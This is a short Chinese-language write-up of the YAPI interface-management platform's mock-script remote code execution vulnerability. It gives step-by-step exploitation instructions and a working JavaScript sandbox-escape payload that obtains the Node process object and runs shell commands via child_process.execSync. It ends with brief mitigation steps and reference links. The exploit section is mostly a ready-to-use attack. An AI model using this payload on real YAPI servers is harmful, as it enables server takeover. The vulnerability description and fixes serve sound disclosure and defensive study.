 ### 一 漏洞描述
YAPI接口管理平台是去哪儿网移动架构组的开源项目，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。

该漏洞存在于YAPI的mock脚本服务上，是由于mock脚本自定义服务未对JS脚本加以命令过滤，用户可以添加任何请求处理脚本，攻击者可利用该漏洞在受影响的服务器上执行任意javascript代码，最终导致接管并控制服务器。

### 二 漏洞利用
1 注册账号
![img_1.png](img_1.png)

2 在里面新建项目

3 设置全局mock脚本及接口，在设置里面找到全局mock脚本，勾上是否开启。mock脚本内容如下
```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami && ps -ef").toString()
```

4 保存之后，接着设置接口，添加接口，直接访问Mock地址，触发js执行。
![img_2.png](img_2.png)

### 三 漏洞修复
1、更改Yapi运行端口  
2、关闭Yapi注册
3、关闭Yapi Mock


> 参考链接  
> https://cloud.tencent.com/developer/article/1856221
> 2021.1月报告的: https://github.com/YMFE/yapi/issues/2099
> 挨喷的: https://github.com/YMFE/yapi/issues/2233
